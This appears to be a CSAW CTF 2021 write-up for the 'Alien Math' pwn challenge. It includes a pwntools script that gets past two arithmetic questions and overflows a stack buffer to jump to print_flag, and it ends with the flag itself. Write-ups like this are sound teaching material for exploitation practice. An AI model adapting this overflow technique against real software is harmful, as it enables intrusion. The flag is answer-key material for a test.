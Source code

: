 ```yaml
---
name: Alien Math (2021)
event: CSAW CTF 2021
category: Pwn
description: Writeup for Alien Math (pwn) - CSAW CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Alien Math

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/1Dw21NoxXjE/0.jpg)](https://youtu.be/1Dw21NoxXjE?t=3701s "CSAW 2021: Alien Math")

## Challenge Description

> Brush off your Flirbgarple textbooks!

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break second_question_function
continue
'''.format(**locals())

# Binary filename
exe = './alien_math'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

# First question - rand() is 0x6b8b4567 everytime..
io.sendlineafter('What is the square root of zopnol?', '1804289383')

# Second question - needs to equal 7759406485255323229225
target = "7759406485255323229225"
user_input = "7"
for i in range(len(target) - 1):
    for j in range(48, 58):
        current_char = ord(target[i])
        next_char = ord(target[i]) + i
        v1 = j - 48
        r = (12 * (next_char - 48) - 4 + 48 * (current_char - 48) - (next_char - 48)) % 10
        if target[i + 1] == chr((v1 + r) % 10 + 48):
            user_input += chr(j)
            break

io.sendlineafter('How many tewgrunbs are in a qorbnorbf?', str(user_input))

# Calculated in GDB with cyclic pattern
offset = 24

# Build the payload
payload = flat({
    offset: [
        elf.symbols.print_flag
    ]
})

# Third question - BoF (offset = 24)
io.sendlineafter('How long does it take for a toblob of energy to be transferred between two quantum entangled salwzoblrs?', payload)

# Got Shell?
io.interactive()
```
{% endcode %}

Flag: `flag{w3fL15n1Rx!y0u_r34lLy_4R3@_fL1rBg@rpL3_m4573R!}`
